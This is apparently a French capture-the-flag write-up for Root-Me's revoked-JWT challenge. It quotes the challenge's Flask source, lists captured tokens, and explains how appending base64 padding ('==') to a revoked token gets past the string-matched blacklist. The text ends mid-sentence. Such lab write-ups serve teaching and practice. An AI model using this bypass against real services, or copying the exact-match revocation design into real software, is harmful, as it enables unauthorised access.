 # [JWT - Jeton révoqué](https://www.root-me.org/fr/Challenges/Web-Serveur/JWT-Jeton-revoque)

[Challenge >>](http://challenge01.root-me.org/web-serveur/ch63/)

Deux endpoints sont disponibles :

POST : /web-serveur/ch63/login
GET : /web-serveur/ch63/admin
Obtenez un accès au endpoint /web-serveur/ch63/admin.

## <a id="source_code"> Code source

````python 
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from flask import Flask, request, jsonify
from flask_jwt_extended import JWTManager, jwt_required, create_access_token, decode_token
import datetime
from apscheduler.schedulers.background import BackgroundScheduler
import threading
import jwt
from config import *
 
# Setup flask
app = Flask(__name__)
 
app.config['JWT_SECRET_KEY'] = SECRET
jwtmanager = JWTManager(app)
blacklist = set()
lock = threading.Lock()
 
# Free memory from expired tokens, as they are no longer useful
def delete_expired_tokens():
    with lock:
        to_remove = set()
        global blacklist
        for access_token in blacklist:
            try:
                jwt.decode(access_token, app.config['JWT_SECRET_KEY'],algorithm='HS256')
            except:
                to_remove.add(access_token)
       
        blacklist = blacklist.difference(to_remove)
 
@app.route("/web-serveur/ch63/")
def index():
    return "POST : /web-serveur/ch63/login <br>\nGET : /web-serveur/ch63/admin"
 
# Standard login endpoint
@app.route('/web-serveur/ch63/login', methods=['POST'])
def login():
    try:
        username = request.json.get('username', None)
        password = request.json.get('password', None)
    except:
        return jsonify({"msg":"""Bad request. Submit your login / pass as {"username":"admin","password":"admin"}"""}), 400
 
    if username != 'admin' or password != 'admin':
        return jsonify({"msg": "Bad username or password"}), 401
 
    access_token = create_access_token(identity=username,expires_delta=datetime.timedelta(minutes=3))
    ret = {
        'access_token': access_token,
    }
   
    with lock:
        blacklist.add(access_token)
 
    return jsonify(ret), 200
 
# Standard admin endpoint
@app.route('/web-serveur/ch63/admin', methods=['GET'])
@jwt_required
def protected():
    access_token = request.headers.get("Authorization").split()[1]
    with lock:
        if access_token in blacklist:
            return jsonify({"msg":"Token is revoked"})
        else:
            return jsonify({'Congratzzzz!!!_flag:': FLAG})
 
 
if __name__ == '__main__':
    scheduler = BackgroundScheduler()
    job = scheduler.add_job(delete_expired_tokens, 'interval', seconds=10)
    scheduler.start()
    app.run(debug=False, host='0.0.0.0', port=5000)


```

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzM2MDk1ODksIm5iZiI6MTY3MzYwOTU4OSwianRpIjoiNGJlY2ZkZGEtM2IzYy00MGY0LTkyYjAtMjM4YTM5N2ZjYWMwIiwiZXhwIjoxNjczNjA5NzY5LCJpZGVudGl0eSI6ImFkbWluIiwiZnJlc2giOmZhbHNlLCJ0eXBlIjoiYWNjZXNzIn0.rai2Ia7UpTutOZILaeSSw0I5HBKTTwtjVU5-Gmq3tmA

HEADER
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.


PAYLOAD

eyJpYXQiOjE2NzM2MDk1ODksIm5iZiI6MTY3MzYwOTU4OSwianRpIjoiNGJlY2ZkZGEtM2IzYy00MGY0LTkyYjAtMjM4YTM5N2ZjYWMwIiwiZXhwIjoxNjczNjA5NzY5LCJpZGVudGl0eSI6ImFkbWluIiwiZnJlc2giOmZhbHNlLCJ0eXBlIjoiYWNjZXNzIn0.

SIGN

rai2Ia7UpTutOZILaeSSw0I5HBKTTwtjVU5-Gmq3tmA



eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzM2MDk1ODksIm5iZiI6MTY3MzYwOTU4OSwianRpIjoiNGJlY2ZkZGEtM2IzYy00MGY0LTkyYjAtMjM4YTM5N2ZjYWMwIiwiZXhwIjoxNjczNjA5NzY5LCJpZGVudGl0eSI6ImFkbWluIiwiZnJlc2giOmZhbHNlLCJ0eXBlIjoiYWNjZXNzIn0.rai2Ia7UpTutOZILaeSSw0I5HBKTTwtjVU5-Gmq3tmA=


eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzM2MTAzMjcsIm5iZiI6MTY3MzYxMDMyNywianRpIjoiNmQ1YWVlYTUtMmQ2MS00NjRhLWFjM2EtNGQ1ODNjYzc0ZTc1IiwiZXhwIjoxNjczNjEwNTA3LCJpZGVudGl0eSI6ImFkbWluIiwiZnJlc2giOmZhbHNlLCJ0eXBlIjoiYWNjZXNzIn0.89LGjwamLGa72QnX4ZYeOen6AfHxVK2nt8Ums_VgmHc==



eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzM2MTEzNTgsIm5iZiI6MTY3MzYxMTM1OCwianRpIjoiNmQwODBkMjktNmJiYS00ZTczLTk2ZjAtMjdjM2IzOGI0OTE2IiwiZXhwIjoxNjczNjExNTM4LCJpZGVudGl0eSI6ImFkbWluIiwiZnJlc2giOmZhbHNlLCJ0eXBlIjoiYWNjZXNzIn0.n0pfl3KHjpiN3i-VWJHYl6gyl69DBrLvSyUyYJppxdM

Dans cet exercice, on fait une première requête sur l'url

en POST http://challenge01.root-me.org/web-serveur/ch63/login
en HEADER Content-Type : application/json
en body : 
{
    "username" : "admin",
    "password" : "admin"
}

On en récupère un token JWT
On l'envoie en GET Sur http://challenge01.root-me.org/web-serveur/ch63/admin
en Authorization : Bearer + MON TOKEN + "==" (mon caractère de bourrage)
Alors pourquoi ça passe ?? 
Le token via le script python du code source, va être enregistrer en base en tant que Token révoqué, une strict 